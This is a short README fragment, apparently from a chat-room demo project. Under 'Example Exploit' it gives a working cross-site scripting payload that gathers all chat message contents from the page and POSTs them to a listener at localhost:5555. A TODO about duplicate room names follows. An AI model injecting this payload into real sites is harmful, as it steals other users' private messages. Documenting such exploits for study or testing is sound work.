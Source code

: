 Example Exploit:
====================
    <script>function getText(){let text='';let messages = document.getElementsByClassName('message');for(let i = 0; i < messages.length; i++){text += messages[i].innerHTML;}return text; }fetch('http://localhost:5555/', {method: 'POST', body:'username=' + getText(),headers: { 'Content-Type': 'application/x-www-form-urlencoded', },}); </script>
TODO:
====================
Change behavior when creating new room with existing name from joining existing room, maybe by hashing user creating and roomname together to allow multiple users to have same room names